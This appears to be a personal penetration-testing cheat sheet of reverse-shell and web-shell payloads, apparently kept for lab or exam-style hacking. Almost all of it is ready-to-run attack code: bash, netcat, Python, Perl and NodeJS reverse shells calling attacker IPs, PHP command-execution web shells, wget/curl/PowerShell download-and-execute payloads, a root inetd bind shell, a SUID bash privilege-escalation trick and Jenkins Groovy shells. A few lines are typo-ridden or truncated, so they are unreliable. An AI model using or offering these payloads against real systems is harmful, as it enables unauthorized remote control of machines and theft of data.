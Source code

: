 ## RevShells

#### BASH

```bash
bash -i >& /dev/tcp/192.168.45.178/22 0>&1

echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/pwned\nchmod 4777 /tmp/pwned' >> full-checkup.sh
chmod +x full-checkup.sh
/tmp/pwned -p
```

Very fucking reliable.

```bash
busybox nc 10.10.10.10 1234 -e sh
busybox nc 10.10.10.10 1234 -e /bin/sh
```

#### PHP

```bash
<?php file_get_contents('/etc/passwd'); ?>
php -r '$sock=fsockopen("192.168.45.178", 60001);exec("/bin/sh -i <&3 >&3 2>&3");'

cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
python3 -m http.server
nc -nlvp 443
<?php system("wget http://192.168.45.204/shell.php -O /tmp/shell.php;php /tmp/shell.php");?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

 &cmd=whoami or ?cmd=whoami
<?php shell_exec($_GET["cmd"]);?>
<?php system($_GET["cmd"]);?>
<?php echo passthru($_GET['cmd']); ?>
<?php echo exec($_POST['id']); ?>
<?php system($_GET['cmd']); ?>
<?php passthru($_REQUEST['cmd']); ?>
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

cp /usr/share/webshells/php/php-reverse-shell.php .
python3 -m http.server 800
nc -nlvp 443
&cmd=wget http://192.168.119.168:800/php-reverse-shell.php -O /tmp/shell.php;php /tmp/shell.php

echo '<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>' > shell.php
shell.php&cmd=
```

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",22));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
nc -nlvp 22
or

192.168.49.140

#### NetExec (Pwn3d! = Shell)

```bash
netexec smb $ip -u $user -p $pass -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.163",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.163 80 >/tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 80 >/tmp/f

busybox nc $ip 5000 -e /bin/bash

certutil.exe -urlcache -split -f http://192.168.45.195:443/nc.exe C:\Windows\Tasks\nc.exe & C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.195 80
```

#### Perl

```bash
perl -e 'use Socket:$i="192.168.45.163";$0=443;socket(S,PF INET,SOCK STREAM, getprotobyname("tcp")); if(connect (S, sockaddr_in($p,inet_aton ($i)))) {open(STDIN, ">&S") ; open (STDOUT, ">&S") ;open (STDERR, ">&S") ;exec("/bin/sh -i"T;};'
```

#### CMD

```bash
'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.178:8000/rev.ps1") | powershell 
-noprofile'
````

General:

- “Curl ip/reverse.sh | bash” not a bad idea.
- wget'ing to tmp, chmod +x, then bash -c /tmp/pwn.sh

#### PsExec

If you have creds and can't get psexec onto the box, try it locally to get a shell

```bash
proxychains psexec.py USERC:USERCishere@10.11.1.50 cmd.exe
```

#### Bypass Python 2 input()

```bash
__import__('os').system('/bin/bash -p')
```

#### Use ConPty Windows Shell

Make sure to copy raw file whenever copy-pasting from GitHub.

WHENEVER YOU'RE SENDING A POST REQUEST, INCLUDE THE CONTEXT-TYPE HEADER, like 'Content-Type: application/x-www-form-urlencoded'.

```bash
include=echo+WAZZUP%3b
include=/etc/passwd
include=http://10.10.14.8:8000/fake
include=http://10.10.14.8:8000/reverse-shell.php
include=reverse-shell.php
```
When testing for a php reverse shell, you can make a simple php file that says "echo WAZZUP;" and check whether "WAZZUP" is returned in the response.

If that doesn't work, you could have him connect back to us so that we could crack the hash.

```bash
cat conpty.php
stty raw -echo; (stty size; cat) | nc -lvnp 8888
system("powershell IEX(IWR http://10.10.14.11:53/con.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.11 8888");
```

#### Inet Bind Shell ??

```bash
"echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
nc -nv $ip 31337
```

#### Windows nc.exe

This is a reliable reverse shell from Windows computer. If you can upload a file, try msfvenom payload, and if that doesn't work, upload a nc.exe binary and try 

```bash
.\nc.exe -nv 192.168.XX.XX 445 -e cmd.exe
```

#### Windows

One reliable revshell is the powershell encoded one on revshells.

#### Two-Parter via File Upload Vuln

Upload netcat.exe, then php file that will trigger it.

```php
<?php
system('netcat.exe -vv 192.168.4.178 443 -e cmd.exe');
?>
```

#### Javascript ( NodeJS ) SSTI

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(3000, "192.168.45.204", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

#### Groovy-based - Jenkins Console

```bash
# Linux
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()
# Windows
def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");
# Windows
String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);
```